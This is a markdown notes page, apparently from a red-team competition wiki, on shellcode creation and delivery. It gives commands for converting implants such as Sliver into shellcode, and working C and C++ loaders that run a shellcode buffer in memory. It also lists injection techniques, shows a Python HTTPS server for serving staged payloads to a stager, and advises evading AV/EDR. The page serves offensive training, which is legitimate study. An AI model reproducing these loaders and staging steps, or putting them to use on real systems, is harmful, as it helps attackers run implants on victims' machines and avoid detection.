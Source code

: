 # Shellcode Creation
## Linux

Generating shellcode for a Linux operating system: Tips.

>[!note]
>When generating MSFVenom shellcode to be executed by a stager, use the `raw` format, as the shellcode will be downloaded directly into memory.

```shell
# Copy and save executable code as c-string. (Useful to convert slivers to shellcode, etc. when not using B64 or similar)

objcopy -j .text -O binary <compiled executable> <text section to save to (still bin)>
xxd -i <text section> 
```

```c
// Example code for Linux direct execution

#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        <shellcode goes here>
    };
    
    (*(void(*)())message)();
    return 0;
}
```

## Windows

Generating shellcode for a Windows operating system: Tips

```cpp
// Example code for Windows direct execution

#include <windows.h>
char stager[] = {
	<shellcode goes here> 
};
int main()
{
    DWORD oldProtect;
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
    int (*shellcode)() = (int(*)())(void*)stager;
    shellcode();
}
```

# Shellcode Injection Techniques
- Direct Injection
- Process Hollowing
- Thread Injection
- DLL Injection
Reference THM for example code. Most of these techniques are out of scope for competitions. 

# Staged Payloads
We can generate staged payloads with [[MSFVenom]]. 

This means we are going to have to serve the payload ourselves as well. This example shows an HTTPS stage listener. 
```shell
# Spin up an HTTPS server for serving our shellcode to the stager

openssl req -new -x509 -keyout <certificate outfile> -out <same outfile as before> -days 365 -nodes

python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='<certificate we just generated>',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

An example C# stager can be found here: https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs. However, you should be able to perform HTTPS requests in your language of preference to fetch the raw shellcode yourself. 

>[!danger] Detection Risk
>Shellcode is inherently risky. Use the tactics described in [[Evasion]] to help your code avoid detection by AV/EDR/XDR.

>[!note]
>Sliver and Meterpreter have built-in stagers that both use the same protocol, therefore you may use [[MSFVenom]]-generated stagers to retrieve slivers with a sliver stage-listener. 
 